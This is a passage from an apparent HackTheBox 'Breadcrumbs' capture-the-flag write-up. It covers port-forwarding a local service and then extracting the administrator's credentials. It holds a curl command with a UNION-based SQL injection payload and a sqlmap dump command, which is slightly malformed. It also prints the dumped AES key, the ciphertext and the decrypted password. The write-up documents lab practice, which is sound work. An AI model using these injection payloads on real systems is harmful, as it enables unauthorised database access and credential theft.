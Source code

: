 SSH into machine as development and a binary was found . we need to transfer it to our machine for analysing.

```powershell
PS C:\Development> ls


    Directory: C:\Development


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        11/29/2020   3:11 AM          18312 Krypter_Linux


PS C:\Development>
```

When we print strings in the binary using `strings` command we can find that it is listening on port 1234 locally. So we need to forward the port .

![](/Writeups/breadcrumbs/Pasted image 20210718172430.png)

![](/Writeups/breadcrumbs/Pasted image 20210718172639.png)

![](/Writeups/breadcrumbs/Pasted image 20210718172747.png)

We can now dump hash and secret 

```bash
┌──(aju㉿Parrot)-[~/CTF/HTB/breadcrumps]
└─$ curl localhost:1234 -d 'method=select&username=&table=passwords UNION select password from passwords-- -'
selectarray(2) {
  [0]=>
  array(1) {
    ["aes_key"]=>
    string(16) "k19D193j.<19391("
  }
  [1]=>
  array(1) {
    ["aes_key"]=>
    string(44) "H2dFz/jNwtSTWDURot9JBhWMP6XOdmcpgqvYHG35QKw="
  }
}
```

```php
sqlmap -dump -u 127.0.0.1:1234/index.php ethod=select&username=administrator&table=passwords"

+----+---------------+------------------+----------------------------------------------+
| id | account       | aes_key          | password                                     |
+----+---------------+------------------+----------------------------------------------+
| 1  | Administrator | k19D193j.<19391( | H2dFz/jNwtSTWDURot9JBhWMP6XOdmcpgqvYHG35QKw= |
+----+---------------+------------------+----------------------------------------------+
```

Using CyberChef we can decrypt password for administrator

![](/Writeups/breadcrumbs/Pasted image 20210718173120.png)

|user|password|
|---|---|
|administrator |p@ssw0rd!@#$9890./|

![](/Writeups/breadcrumbs/Pasted image 20210718173634.png)